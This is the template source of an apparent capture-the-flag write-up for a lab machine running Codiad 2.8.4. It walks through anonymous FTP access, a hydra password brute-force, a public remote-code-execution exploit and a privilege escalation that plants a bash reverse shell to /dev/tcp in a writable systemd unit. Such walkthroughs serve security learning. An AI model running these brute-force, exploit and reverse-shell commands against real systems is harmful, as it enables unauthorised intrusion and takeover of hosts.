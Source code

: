 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- -sC -sV 10.10.0.210", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 08:36 CET
Warning: 10.10.0.210 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.0.210
Host is up (0.080s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.1.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel")}}

{{text("We discover 3 open ports: ")}}

{{list(['21 (FTP)', '22 (SSH)', '62337 (HTTP)'])}}

{{text("Let's begin by checking the FTP service.")}}

{{text("It allows us to log in anonymously by using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>anonymous:anonymous</code> as our credentials.")}}

{{text("Inside we can find a folder named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>...</code> in which is a file named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>-</code>. Pretty strange names.")}}

{{text("We can download the file using the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>get</code> command.")}}

{{text("In order to read the file let's change it's name to something normal using either the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>mv</code> or <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cp</code> command.")}}

{{console("cat file", "Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.")}}

{{text("We found 2 usernames, <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>drac</code>. The note also informs us about a password change to the default one, meaning it should be easy to guess.")}}

{{header}}

{{text("We proceed to the web page on port 62337, probably looking for some kind of login form.")}}

{{image("../../static/writeups/hackervshacker/images/000001.jpg")}}

{{text("It's probably possible for us to guess user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code> password, but let's use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hydra</code> to brute-force it.")}}

{{console("hydra -l john -P /usr/share/wordlists/rockyou.txt 10.10.0.210 -s 62337 http-post-form '/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^:Incorrect Username or Password'", "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-17 09:10:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.0.210:62337/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^:Incorrect Username or Password
[62337][http-post-form] host: 10.10.0.210   login: john   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-17 09:10:20")}}

{{text("Knowing the password, we can log in.")}}

{{image("../../static/writeups/hackervshacker/images/000002.jpg")}}

{{text("Now we can search for any known exploits for <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Codiad 2.8.4</code>.")}}

{{text("I came acroos this.")}}

{{link("https://www.exploit-db.com/exploits/49705", "https://www.exploit-db.com/favicon.ico", "Codiad 2.8.4 - Remote Code Execution (Authenticated)")}}

{{text("Let's copy the exploit onto our machine and run it.")}}

{{console("python3 exploit.py http://10.10.192.150:62337/ john password 10.9.1.157 1234 linux", "[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.9.1.157/1235 0>&1 2>&1"' | nc -lnvp 1234
nc -lnvp 1235
[+] Please confirm that you have done the two command above [y/n]
[Y/n] Y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
{"status":"error","message":"No Results Returned"}
[+] Exploit finished!
[+] Enjoy your reverse shell!")}}

{{text("Now we have a reverse shell on the target.")}}

{{image("../../static/writeups/hackervshacker/images/000003.jpg")}}

{{header}}

{{text("While looking through the system, I accessed user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>drac</code> home directory.")}}

{{text("There was a flag, which I couldn't read and a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.bash_history</code> file which contents were not getting deleted.")}}

{{image("../../static/writeups/hackervshacker/images/000004.jpg")}}

{{text("We got a password to MySQL database, I wondered if this user reused his passwords and I tried to log in as him.")}}

{{image("../../static/writeups/hackervshacker/images/000005.jpg")}}

{{text("Seems like my theory was right.")}}

{{header}}

{{text("Since I had my current user's password, I checked his sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart")}}

{{text("I checked if we have write permissions to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/lib/systemd/system/vsftpd.service</code> file and we do.")}}

{{text("If we edit this file, then upon restarting the service the edited code will execute.")}}

{{text("Meaning we just have to insert a reverse shell somewhere inside of this file.")}}

{{console("", "[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.1.157/1235 0>&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target")}}

{{text("Now let's use the sudo command.")}}

{{console("sudo /usr/sbin/service vsftpd restart", "Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.")}}

{{text("We follow the instructions and execute the command provided.")}}

{{text("Now when we run the sudo command again, we should get a reverse shell.")}}

{{image("../../static/writeups/hackervshacker/images/000006.jpg")}}
